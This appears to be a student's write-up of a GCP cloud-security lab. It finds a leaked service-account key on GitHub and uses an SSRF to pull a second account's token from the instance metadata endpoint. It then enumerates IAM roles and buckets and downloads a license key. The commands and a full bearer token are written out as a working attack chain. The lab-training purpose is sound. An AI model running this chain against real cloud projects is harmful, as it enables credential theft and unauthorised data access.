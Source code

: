 
### Lab Resolution

###### GCP

1) Github Search

Google will through another metatech repo: https://github.com/MetaTech-dev but thats not the repo, nothing in it ties it to CWL or exposed keys.

In github search, do: 
`org:cwl-metatech`

It will find this org: https://github.com/cwl-metatech
It has this repo: https://github.com/cwl-metatech/production-data
Download key: dev-service-account-key.json

2) With the auth file, I attempt to activate the account:
`gcloud auth activate-service-account --key-file dev-service-account-key.json`

3) Enumeration:

==service account:==
dev-service-account@alert-nimbus-335411.iam.gserviceaccount.com
I get the project ID from credentials.db in `/home/user/.config/gcloud/credentials.db`
Project ID: `alert-nimbus-335411` You can also see it in the json key file

org: cant see anything at org level
projects: cant see other projects, just current alert-nimbus
id: dev-service-account@alert-nimbus-335411.iam.gserviceaccount.com  -> $gcloud config list
The account seems to be a google service default account

iam policy: no permission to check project policies
keys: no permission
custom roles on project: no permission

resources:  found a compute instance
`stag-instance  us-central1-b  n1-standard-1               10.10.1.2    34.28.59.217  RUNNING`

To check its associated email:
`gcloud compute instances describe INSTANCE_NAME --zone=ZONE --format="get(serviceAccounts)"
`
Email: vm-service-account@alert-nimbus-335411.iam.gserviceaccount.com

I start enumerating the instance, there is an SSRF vuln in the organization name input. We collect information about the account we just discovered:

curl -H "Metadata-Flavor: Google"
http://169.254.169.254/computeMetadata/v1/instance/service-accounts/vm-service-account@alert-nimbus-335411.iam.gserviceaccount.com/token

We obtain a token:

```
{"access_token":"ya29.c.c0ASRK0GZbC47YD6SkLAHktOU9N2bLyl1m69r0bsjP-j_M4qEoOPv6YgiQwKU-FBxYScTefk_PgkitU5DrgxRmEmIYLCj4jU-rCZLEI3WkhmUHkvlNa1ulLvGwZIM4gWZwyFSSE59L3bSGiUxCyYXEIjcodLIeEHd3Ek0Qo3hXSTjguhGAVEZvmakmU1Xb81swIXJHCDsD6-ndOcFE7YBqIp6aufwMw6rrhDGsXMyQZdp9VE-FWRu0mztT0jcOgtHZCAPnzihd6lOrSxqlvPXgNuZd3mLe_bHI8wGkWJZtsBdKF3N0USY-2VZxhMzYDhAVpdea2wianuFn-1DCap35rRH4XzPvNIclAr5Xu6TaJVo9ymeG1UGzb8CDtgl4SQE391DUXOan13QMY_xJOzk48ncFW9RhkewFIbBiu-0YBml1rofOjQvXfWarbsxgqWg1Wflqze39BRQu004kQlFw-S7Q1UdjOrgS-2ex4jVVyr5q-3uoJ16l2MOYtWRYXIUgafbVhliOlz2I-SZ537evmORfXYaiq3xIJk4qcjvBZroM4qru1ct2no792kdirinVnqQobWe1SVOxwmwBQM_FwtJ7fcgOrRrlw3dru5bbViqsc8FrtbZMfwmbxRj95Mz6R75lkJm-gXn9jp-wQehg_6538d-e-3xIMdsY7_sb5ci3OlQatSwbZY7h3Fbkc3iScQyFufdgVB6ehUIm9BpRuVZnjdOQbWy3a19rXxb4g4in7gaZX26Wguw01Qsb_R4mgBn0VMy070eVzWjhiB61suz1-1MZj2igqJue4sg4h-X-WvUvIxY2BJXOurmc9FkB9wyeaOmmeBRFrlRf91sFhJFMWrQX-Jr5powr2noVf2vWad3c04Rl8g_-0dtflnZonSZQJaauB2g4lqeQZwxi9gXB2ixwcz98eim2Ih-vS5gzlp4fVF1Jhepbw-vSW6w8Of_aMyQz9vXYvX8Vxb9-xedxgYxJx6SeFJZh63uVyO4yZw0qcQ7a1Vk","expires_in":3468,"token_type":"Bearer"}
```

I save the token in a .txt file, I can use it to enumerate the access the vm-service newly discovered account has on the project.

==.........................................................................==

==service account: vm-service-account@alert-nimbus-335411.iam.gserviceaccount.com == 

I see other service accounts associated in the project:`gcloud iam service-accounts list --access-token-file token.txt

This service account with the stolen token has more visibility into the project. Lets check its role:
`gcloud projects get-iam-policy alert-nimbus-335411 --flatten="bindings[].members" --filter="bindings.members=serviceaccount:vm-service-account@alert-nimbus-335411.iam.gserviceaccount.com" --format="value(bindings.role)" --access-token-file token.txt`

The role is: reader

I check all the custom roles:
`gcloud iam roles list --project alert-nimbus-335411 --access-token-file token.txt`
I see the VM Reader - name VMReadjw1
I check its description:
`gcloud iam roles describe VMReadjw1 --project alert-nimbus-335411 --access-token-file token.txt`
It does not show us the service accounts associated with the role, so I pull all the descriptions of the service accounts and search:

`gcloud projects get-iam-policy alert-nimbus-335411 --format="json" --access-token-file token.txt > roles.txt`

We now want to see what access dev service account has at compute instance level, all we need is to check the role again:
`gcloud iam roles describe VMReadjw1 --project alert-nimbus-335411 --access-token-file token.txt`
The title is VM reader, the service account has 'reader' access.

Now we can enumerate the storage accounts:
`gcloud storage ls --access-token-file token.txt`

```
gs://gcf-sources-233003792018-us-central1/
gs://stag-storage-metatech/
gs://testingcwl/
gs://us.artifacts.alert-nimbus-335411.appspot.com/
```

Lets check access into each one:
`gcloud storage ls [storage account name] --access-token-file token.txt`
We can access several, for this course we wanted:
`stag-storage-metatech`

I obtain the license key:
`gcloud storage cp gs://stag-storage-metatech/license-key.txt . --access-token-file token.txt`



==.........................................................................==


